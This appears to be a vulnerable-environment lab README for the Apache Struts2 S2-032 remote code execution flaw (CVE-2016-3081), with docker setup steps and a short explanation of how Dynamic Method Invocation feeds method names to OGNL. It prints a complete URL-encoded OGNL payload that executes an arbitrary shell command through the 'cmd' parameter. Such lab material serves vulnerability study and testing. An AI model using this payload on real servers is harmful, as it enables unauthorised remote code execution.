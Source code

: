 # S2-032 Remote Code Execution Vulnerablity（CVE-2016-3081）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - https://www.cnblogs.com/mrchang/p/6501428.html

## Setup

Execute the following command to start the Struts2 2.3.28：

```
docker compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example page.

## Exploitation

There’s a feature embedded in Struts 2 that lets the "!" (bang) character invoke a method other than execute. It is called “Dynamic Method Invocation” aka DMI.

A simple way to use DMI is to provide HTTP parameters prefixed with `method:`. For example in the URL it could be `/category.action?method:create=foo`, the parameter value is ignored.

The method name of DMI will be evaluated by OGNL expression engine, which would cause the RCE vulnerability.

Visit following URL to trigger the `id` command:

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)
